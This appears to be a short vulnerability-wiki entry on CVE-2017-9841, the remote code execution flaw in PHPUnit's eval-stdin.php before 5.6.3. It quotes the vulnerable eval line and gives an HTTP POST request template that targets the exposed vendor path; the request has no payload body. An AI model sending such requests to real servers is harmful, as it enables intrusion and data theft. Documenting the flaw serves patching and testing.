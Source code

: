 # PHPUnit eval-stdin.php remote command execution vulnerability CVE-2017-9841

## Vulnerability Description

In the version before PHPUnit 5.6.3, there is a remote code execution vulnerability, which can obtain sensitive information and permissions of the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">PHPUnit < 5.6.3</span>

## Vulnerability reappears

The vulnerability is located in `/phpunit/src/Util/PHP/eval-stdin.php`

The key code is:

```plain
eval('?>'.file_get_contents('php://input'));
```

Send the following request package to execute PHP code

```plain
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313100236521.png)